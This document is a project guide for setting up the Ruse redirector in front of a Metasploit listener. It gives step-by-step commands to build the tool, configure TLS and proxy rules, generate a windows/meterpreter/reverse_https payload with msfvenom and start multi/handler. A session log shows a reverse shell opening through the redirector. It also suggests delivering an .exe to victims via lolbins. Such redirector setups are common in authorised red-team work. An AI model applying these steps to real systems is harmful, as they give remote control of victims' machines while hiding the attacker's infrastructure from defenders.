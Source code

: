 # Using Metasploit with Ruse
This document describes how to use [Ruse](https://github.com/e3prom/ruse) to
redirect or proxy the Metasploit's HTTPS payloads.

## Summary
You can use Ruse to redirect or proxy Metasploit's reverse HTTP(S) traffic,
such as those generated by the MSF's `windows/meterpreter/reverse_https`
payloads. The below instructions describe how to setup Metasploit and Ruse so
you can rapidly get a shell back from a vulnerable host, through the Redirector
All HTTPS traffic will be forwarded from the victim to your Ruse instance and
vis-versa, effectively "hiding" your metasploit's listener from the outside.

## Setting up Ruse
First and foremost, we clone the [Ruse](https://github.com/e3prom/ruse)
repository if not already done and we compile it using the Go compiler:
```
eprom@kali:~$ git clone https://github.com/e3prom/ruse.git
eprom@kali:~$ cd ruse/
eprom@kali:~/ruse$ go build -o ruse src/ruse/main.go
```

Now we have a `ruse` executable in the current working directory, we will
generate an RSA key pair and a self-signed X.509 certificate to be used by the
SSL/TLS server of our redirector:
```
eprom@kali:~/ruse$ openssl req -new -newkey rsa:2048 -days 365 -nodes \
                   -x509 -keyout server.key -out server.crt -outform pem
Generating a 2048 bit RSA private key
[...]
```
Make sure the key is only readable by the Ruse's user and that the
certificate's Common Name (CN) matches the `LHOST` value that we will pass to
`msfvenom` later.

Now edit the Ruse configuration file to enable HTTPS (SSL/TLS):
```
eprom@kali:~/ruse$ vi conf/ruse.conf
```
Add the `tls` value to the `Protocols` array like so:
```
    "Protocols": [ "plain", "tls" ],
```

Also change the `Hostname` attribute value, so Ruse will listen on the
appropriate interface facing your victim(s).

Inside the `Proxy` attributes, change the values of the sub-attributes `target`
to point to your Metasploit's listener IP address or hostname. The latter must be
of course reacheable from your Ruse's host.

By default the [example configuration
file](https://github.com/e3prom/ruse/blob/master/conf/ruse.conf) includes the
default User-Agent strings of the of Metasploit's payloads, the main string can
be changed if necessary. Please note there is two proxy entries, one is
matching the default Metasploit's User-Agent header field string, the second is
matching an empty/non-existent User-Agent header field which is often used by
the MSF payloads in their early stage of connection.

And last, but not least, we start Ruse from the command-line:
```
eprom@kali:~/ruse$ ./ruse -c conf/ruse.conf 
Starting HTTP Server on 2.22.153.215:8000
Starting HTTPS Server on 2.22.153.215:443
```

## Setting up Metasploit
We will now use the `msfvenom` utility to generate a Metasploit's reverse HTTP
payloads, to be executed or injected to our victim:
```
eprom@kali:~$ msfvenom -p windows/meterpreter/reverse_https LHOST=2.22.153.215 LPORT=443 HttpHostHeader=46.4.100.250 -f c
```
* Set the `LHOST` variable to point to your Ruse's IP address.
* Set the `LPORT` variable to point to your Ruse's listen port.
* Set the `HttpHostHeader` advanced variable to point to your Metasploit
listener's IP address.

Note that we can use Ruse to deliver our payload as well, if you chose by
example to generate an .exe file. Place the file somewhere in the Ruse's
root directory and make your victim download it (e,g. using lolbins).

We can now start our Metasploit listener:
```
eprom@kali:~$ msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST 2.22.153.215
LHOST => 2.22.153.215
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set HttpHostHeader 46.4.100.250
HttpHostHeader => 46.4.100.250
msf exploit(multi/handler) > set OverrideRequestHost True
OverrideRequestHost => True
msf exploit(multi/handler) > set ExitonSession false
ExitonSession => false
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[-] Handler failed to bind to 2.22.153.215:443
```
Set the `LHOST` and `LPORT` variable like above with `msfvenom` even if it
looks odds and counter-intuitive. MSF will in fact, listen on all interfaces,
and handle the proxied reverse shells correctly, despite the error message.

 
If everything goes well, you should get a reverse shell back via your
redirector: 
```
[*] https://2.22.153.215:443 handling request from 2.22.153.215; (UUID: ugrfv5ws) Staging x86 payload (180865 bytes) ...
[*] Meterpreter session 1 opened (46.4.100.250:443 -> 2.22.153.215:48562) at 2018-11-22 12:11:10 -050
``` 

